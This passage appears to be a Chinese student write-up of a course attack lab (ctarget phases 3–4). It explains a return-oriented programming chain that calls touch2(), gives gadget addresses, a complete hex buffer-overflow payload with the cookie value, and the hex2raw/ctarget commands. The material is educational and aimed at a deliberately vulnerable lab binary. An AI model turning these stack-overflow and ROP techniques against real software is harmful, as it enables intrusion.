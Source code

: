 4. 把 cl3hex.txt 转换成 cl3raw.txt：
./hex2raw < cl3hex.txt > cl3raw.txt

5. 运行程序：
./ctarget -q < cl3raw.txt


# phase4 (return-oriented programming level2)

要求：在使用了随机初始栈长度，以及 不能执行栈位置的内容后，使用ROP来调用touch2()函数。
只能使用movq, popq, ret和nop(0x90)指令

题解：
尽管每次 Gets()完之后，rsp的值都不一样的(随机初始栈的长度)，但 如果每次都填满相同的超过40个字节的内容时，返回时它所指向的地址的内容都是 一样的，即：
print /x *(long *) $rsp 都一样。在这个位置放 要使用的代码的 位置即可。

因为栈中不能放 可执行代码，那么只能通过放入 返回地址，去执行我们希望执行的代码。

首先先观察能用的指令表格，以及提供的能够使用的代码段(farm.cpp)，发现能用的popq指令只有一个，也就是popq %rax (0x58)，那这条指令 必定是需要用到的。

其次，因为需要向touch2()函数传递参数，那么movq S,D指令中的 D需要有%rdi，然后观察 它的源，发现 只有movq %rax, %rdi是可用的。

实际上，这2条指令就够用了：
pop %rax #把栈中 cookie的值给rax  这条指令出现在0x4019ab(注意要加上偏移)中
movq %rax, %rdi #把cookie值 传递给rdi   这条指令出现在0x4019c5中
然后调用touch2()函数即可。  0x4017ec

栈的内容：  

<img src="mdpics/rl2.png" height="310" width="290">

1. 编写文件 rl2hex.txt。内容为：
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50 /\* 刚好40个字节 \*/  
    ab 19 40 00 00 00 00 00 /\* pop %rax的地址 \*/  
    fa 97 b9 59 00 00 00 00 /\* cookie的值 \*/  
    c5 19 40 00 00 00 00 00 /\* mov %rax, %rdi的地址 \*/  
    ec 17 40 00 00 00 00 00 /\* touch2的地址 \*/  
